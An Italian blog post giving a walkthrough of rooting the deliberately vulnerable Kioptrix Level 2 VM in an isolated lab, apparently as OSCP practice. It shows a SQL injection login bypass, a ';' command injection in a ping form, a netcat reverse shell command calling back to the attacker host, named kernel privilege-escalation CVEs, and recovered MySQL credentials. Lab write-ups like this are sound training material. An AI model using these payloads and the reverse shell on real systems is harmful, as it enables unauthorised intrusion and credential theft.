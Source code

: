 ```yaml
---
layout: post
title: "Getting Root: Kioptrix livello 2"
exercise: https://www.vulnhub.com/entry/kioptrix-level-11-2,23/
level: SEMPLICE
promotion: 
modified: 
featured: false
category: [getting-root]
tags: [walkthrough, oscp, kioptrix, getting-root]
comments: true
share: true
---
```


Il secondo livello di Kioptrix non presenta particolari difficoltà. Fa parte di
quelle macchine che sto usando per ricostruire l'autostima in vista della
prossima OSCP.

## Kioptrix Livello 2

Continuiamo la serie Kioptrix ed arriviamo al livello 2 disponibile
[qui]({{page.exercise}}).

Anche questa macchina virtuale è un box Linux su cui è montata una
distribuzione CentOS obsoleta.

### Setup dell'ambiente

Per iniziare, ho scaricato la [versione corretta della macchina
virtuale](http://www.kioptrix.com/dlvm/Kioptrix_Level_2.rar). La prima versione
aveva infatti un bug nella web application. Ho lasciato configurato
[VirtualBox](https://www.virtualbox.org) affinché esegua la mia [Kali
Linux](https://www.kali.org) e la macchina target in una rete ad hoc, isolata
dal mondo esterno.

Questo si ottiene andando sulle preferenze di Virtual Box, selezionando
_Network_ ed il tab _Host-only networks_.

![Impostazioni Virtual Box]({{site.url}}/assets/images/getting-root/k1/impostazioni_virtualbox.png)

Ora che tutte le macchine, all'avvio, prenderanno un indirizzo sulla 192.168.56
possiamo partire.

La macchina 192.168.56.101 è una Kali Linux aggiornata e pronta all'uso.
La macchina 192.168.56.103 è il nostro target.

![La nostra vittima all'avvio]({{site.url}}/assets/images/getting-root/k2/target.png)

### Recon

Il primo passaggio è quello di enumerare i servizi in ascolto sulla macchina,
per cercare di capire qualcosa in più.

{%highlight sh%}
# nmap -sV -O 192.168.56.103 -oA 192.168.56.103
{%endhighlight%}

{% highlight sh %}
# Nmap 7.50 scan initiated Mon Sep 11 17:28:58 2017 as: nmap -sV -O -oA 192.168.56.103 192.168.56.103
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.103
Host is up (0.00024s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
111/tcp  open  rpcbind  2 (RPC #100000)
443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
631/tcp  open  ipp      CUPS 1.1
3306/tcp open  mysql    MySQL (unauthorized)
MAC Address: 08:00:27:87:1E:A6 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Sep 11 17:29:14 2017 -- 1 IP address (1 host up) scanned in 16.05 seconds
{%endhighlight%}

E' stato lanciato anche un _dirb_, che però non ha trovato cose interessanti.

### Takeover narrative

Cercando con _searchexploit_, qualche exploit già pronto per le versioni
rilevate abbiamo che per CUPS c'è qualcosa che possa darmi una shell, mentre
per Apache solamente un DoS.

Navigando sulla porta 80, ci viene presentato una maschera di login di uno
pseudo portale amministrativo.

![Login]({{site.url}}/assets/images/getting-root/k2/login_page_sulla_porta_80.png)

La pagina di login era facilmente bypassabile usando la combinazione di
credenziali _admin:foo or '1'='1_.

![Login page bypassed]({{site.url}}/assets/images/getting-root/k2/login_page_bypassed.png)

Una volta autenticati, ci viene presentata una maschera che ci permette di
eseguire un ping su un indirizzo ip passato come parametro. Questo genere di
funzionalità si presta spesso a problematiche di command injection, quando
l'input non è validato correttamente.

Infatti, usando il carattere ';' come separatore, siamo in grado di far
eseguire il comando _id_.

![Command injection]({{site.url}}/assets/images/getting-root/k2/command_injection.png)

Una shell non privilegiata sulla macchina fa sempre comodo come primo
risultato, che ne pensate? 

Bene, su una finestra di terminale, ho lanciato netcat in ascolto sulla porta 443 e poi ho cercato di fare una callback alla mia macchina.

{%highlight sh%}
$ nc -lvnp 443
{%endhighlight%}

Perché uso la 443? Preferisco usare porte di servizi conosciuti, per evitare
problemi con eventuali firewall. Servizi come 21, 53, 80, 443 in uscita da un
indirizzo IP,  possono essere dei buoni candidati.

Dopo un po' di tentativi di indovinare il path di netcat, sulla macchina
target, sono riuscito ad ottenere la mia shell col comando _192.168.56.101; /usr/local/bin/nc 192.168.56.101 443 -e /bin/sh_

![Reverse shell]({{site.url}}/assets/images/getting-root/k2/unprivileged_reverse_shell.png)

Da dentro, il primo obiettivo è capire bene di quale distribuzione si sta
parlando e soprattutto quale la versione del kernel. Questo ci permette in
seguito di cercare l'exploit migliore per elevare i privilegi della nostra
shell.

![CentOS disclosure]({{site.url}}/assets/images/getting-root/k2/centos_disclosure.png)
{%highlight sh%}

$ uname -a

Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux

$ lsb_release -a
LSB Version:	:core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID:	CentOS
Description:	CentOS release 4.5 (Final)
Release:	4.5
Codename:	Final
{%endhighlight%}

Cerco quindi exploit per CentOS 4.5 e sono abbastanza fortunato.
![CentOS exploit]({{site.url}}/assets/images/getting-root/k2/centos_exploit.png)

Visto che le macchine, per come è stato creato il mini laboratorio, non escono
su Internet direttamente, carico gli exploit nella mia _/var/www/html_ e
usando wget li prelevo dal target.

Provo prima l'exploit per il CVE-2009-2698 ma, una volta caricato fallisce.
Niente shell di root al primo tentativo.

![CVE-2009-2698 failed]({{site.url}}/assets/images/getting-root/k2/exploit_1_failed.png)

Provo quindi con l'exploit per il CVE-2009-2692 e questa volta, dopo aver compilato e lanciato l'exploit ho più fortuna: sono root.

![CVE-2009-2692 succeded]({{site.url}}/assets/images/getting-root/k2/root.png)

Ho cercato un po' in lungo ed in largo la flag di questa macchina ma non l'ho
trovata. Probabilmente l'autore non l'ha messa. 

### Spinoff

Andando a vedere il codice sorgente di /var/www/html/index.php è possibile ottenere la password di MySQL dell'utente john.

![index.php info disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_info_disclosure.png)

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_connected_john.png)

E connettersi con successo al database MySQL.

![MySQL connected as john]({{site.url}}/assets/images/getting-root/k2/mysql_0.png)

Andando più a fondo è stato possibile trovare le hash delle password degli
utenti del piccolo portale.

![Application hashes]({{site.url}}/assets/images/getting-root/k2/mysql_1_hash_exposed.png)

Ed infine è stato possibile risalire alla password di root su MySQL che è
_hiroshima_.

![MySQL pwd disclosure]({{site.url}}/assets/images/getting-root/k2/mysql_2_mysql_pwd_exposure.png)



## Off by one

Anche questo livello 2 di Kioptrix non ha presentato grosse difficoltà. Resta
il punto aperto del perché l'exploit per il CVE-2009-2698 non abbia funzionato,
ma non ho investigato nel dettaglio, visto lo scopo di queste esercitazioni.

Il livello 3 di Kioptrix mi aspetta.

Enjoy it!
